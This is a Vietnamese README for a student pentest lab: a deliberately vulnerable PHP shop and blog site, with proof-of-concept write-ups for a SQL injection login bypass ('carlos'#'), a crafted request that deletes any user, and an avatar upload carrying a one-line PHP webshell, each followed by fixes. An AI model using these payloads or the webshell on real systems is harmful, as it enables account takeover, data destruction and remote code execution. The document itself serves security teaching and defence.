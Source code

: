 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  

---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  

```php
<?php echo system($_GET['command']); ?>
```
### 📌 3. Upload file pls.php thông qua chức năng Upload Avatar
  | Test |  Check |
  |---|---|
  | ![Test](screenshots/testimg.png) | ![Check](screenshots/checkimg.png) |
### 📌 4. Thực thi lệnh từ xa
Gửi request thực thi lệnh whoami để xác định user chạy webserver:
```
GET /web_pen_v1/public/uploads/pls.php?command=whoami HTTP/1.1
Host: localhost
````
-Response trả về:
```
HTTP/1.1 200 OK
Server: Apache/2.4.62 (Win64) OpenSSL/3.0.15 PHP/8.3.16
...
desktop-4kbnl3q\ducson
```
-👉 Điều này chứng minh lệnh đã được thực thi trên máy chủ.

### 🚨 5. Ảnh Chụp Màn Hình (PoC Visuals)
| Step | Description | Images |
|------|------------|--------|
| 1 | Kiểm tra webshell có thể tải lên hay không. | ![Check](screenshots/check-webshell.png) |
| 2 | Tải lên file webshell `pls.php`. | ![Upload](screenshots/upload-webshell.png) |
| 3 | Truy cập webshell qua trình duyệt và gửi lệnh. | ![Webshell-1](screenshots/webshell-1.png) |
| 4 | Thực thi lệnh từ xa và nhận kết quả. | ![Webshell-2](screenshots/webshell-2.png) |
| 5 | Response hiển thị kết quả `apache`, chứng minh RCE thành công. | ![Result](screenshots/result-rce.png) |
### 🔧 Biện Pháp Khắc Phục Được Đề Xuất
#### ✅ 1. Kiểm tra loại file bằng MIME type thay vì chỉ kiểm tra phần mở rộng
- Sử dụng finfo_file() để kiểm tra loại file thực sự:
```
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime_type = finfo_file($finfo, $_FILES['avatar']['tmp_name']);
finfo_close($finfo);
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime_type, $allowed_types)) {
    die("File type not allowed!");
}
```
#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
